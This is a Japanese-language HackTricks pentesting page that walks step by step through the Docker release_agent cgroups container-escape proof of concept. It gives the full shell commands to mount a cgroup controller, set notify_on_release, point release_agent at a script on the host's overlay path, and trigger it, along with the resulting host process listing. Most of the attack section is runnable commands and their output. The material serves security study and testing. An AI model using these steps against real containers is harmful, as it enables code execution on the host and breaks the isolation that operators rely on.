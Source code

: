 # Docker release\_agent cgroups escape

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* サイバーセキュリティ会社で働いていますか？ **HackTricksで会社を宣伝**したいですか？または、**PEASSの最新バージョンにアクセスしたり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見しましょう、私たちの独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクション
* [**公式PEASS＆HackTricks swag**](https://peass.creator-spring.com)を手に入れましょう
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で**フォロー**してください[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **ハッキングのトリックを共有するには、PRを** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **と** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **に提出してください。**

</details>

### Proof of conceptの解説

このエクスプロイトをトリガーするためには、`release_agent`ファイルを作成し、cgroup内のすべてのプロセスをキルして`release_agent`を呼び出すことができるcgroupが必要です。これを実現する最も簡単な方法は、cgroupコントローラをマウントし、子cgroupを作成することです。

それを行うために、`/tmp/cgrp`ディレクトリを作成し、[RDMA](https://www.kernel.org/doc/Documentation/cgroup-v1/rdma.txt) cgroupコントローラをマウントし、子cgroup（この例では「x」という名前）を作成します。すべてのcgroupコントローラがテストされているわけではありませんが、このテクニックはほとんどのcgroupコントローラで動作するはずです。

もしも **`mount: /tmp/cgrp: special device cgroup does not exist`** と表示された場合は、お使いの環境にRDMA cgroupコントローラが存在しないためです。**`rdma`を`memory`に変更して修正してください**。RDMAを使用しているのは、元のPoCがそれに対してのみ動作するように設計されていたためです。

cgroupコントローラはグローバルリソースであり、異なる権限で複数回マウントすることができ、1つのマウントで行われた変更は他のマウントにも適用されることに注意してください。

以下に「x」の子cgroupの作成とそのディレクトリリストを示します。
```shell-session
root@b11cf9eab4fd:/# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
root@b11cf9eab4fd:/# ls /tmp/cgrp/
cgroup.clone_children  cgroup.procs  cgroup.sane_behavior  notify_on_release  release_agent  tasks  x
root@b11cf9eab4fd:/# ls /tmp/cgrp/x
cgroup.clone_children  cgroup.procs  notify_on_release  rdma.current  rdma.max  tasks
```
次に、`notify_on_release`ファイルに1を書き込むことで、「x」cgroupのリリース時にcgroup通知を有効にします。また、RDMA cgroupのリリースエージェントを、コンテナ内で後で作成する`/cmd`スクリプトを実行するように設定します。これを行うために、ホスト上の`release_agent`ファイルにホスト上の`/cmd`スクリプトのパスを書き込みます。これにより、コンテナ内のパスとホスト上のパスの両方からファイルを追加または変更することが可能です。

以下に、これらの操作を示します。
```shell-session
root@b11cf9eab4fd:/# echo 1 > /tmp/cgrp/x/notify_on_release
root@b11cf9eab4fd:/# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@b11cf9eab4fd:/# echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
ホスト上に作成する `/cmd` スクリプトのパスに注意してください:
```shell-session
root@b11cf9eab4fd:/# cat /tmp/cgrp/release_agent
/var/lib/docker/overlay2/7f4175c90af7c54c878ffc6726dcb125c416198a2955c70e186bf6a127c5622f/diff/cmd
```
次に、`/cmd`スクリプトを作成します。このスクリプトは`ps aux`コマンドを実行し、その出力をコンテナ内の`/output`に保存します。ホスト上の出力ファイルのフルパスを指定します。最後に、`/cmd`スクリプトの内容を表示します。

```bash
#!/bin/bash

ps aux > /output

cat /cmd
```
```shell-session
root@b11cf9eab4fd:/# echo '#!/bin/sh' > /cmd
root@b11cf9eab4fd:/# echo "ps aux > $host_path/output" >> /cmd
root@b11cf9eab4fd:/# chmod a+x /cmd
root@b11cf9eab4fd:/# cat /cmd
#!/bin/sh
ps aux > /var/lib/docker/overlay2/7f4175c90af7c54c878ffc6726dcb125c416198a2955c70e186bf6a127c5622f/diff/output
```
最後に、攻撃を実行することができます。まず、即座に終了するプロセスを「x」の子cgroup内で生成します。`/bin/sh`プロセスを作成し、そのPIDを「x」の子cgroupディレクトリ内の`cgroup.procs`ファイルに書き込むことで、ホスト上のスクリプトが`/bin/sh`の終了後に実行されます。次に、ホスト上で実行された`ps aux`の出力をコンテナ内の`/output`ファイルに保存します。
```shell-session
root@b11cf9eab4fd:/# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
root@b11cf9eab4fd:/# head /output
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.1  1.0  17564 10288 ?        Ss   13:57   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S    13:57   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        I<   13:57   0:00 [rcu_gp]
root         4  0.0  0.0      0     0 ?        I<   13:57   0:00 [rcu_par_gp]
root         6  0.0  0.0      0     0 ?        I<   13:57   0:00 [kworker/0:0H-kblockd]
root         8  0.0  0.0      0     0 ?        I<   13:57   0:00 [mm_percpu_wq]
root         9  0.0  0.0      0     0 ?        S    13:57   0:00 [ksoftirqd/0]
root        10  0.0  0.0      0     0 ?        I    13:57   0:00 [rcu_sched]
root        11  0.0  0.0      0     0 ?        S    13:57   0:00 [migration/0]
```
### 参考文献

* [https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ企業で働いていますか？** HackTricksで**会社を宣伝**したいですか？または、**PEASSの最新バージョンにアクセスしたり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見しましょう。独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションです。
* [**公式のPEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で**フォロー**してください[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **ハッキングのトリックを共有するには、PRを** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **と** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **に提出してください。**

</details>

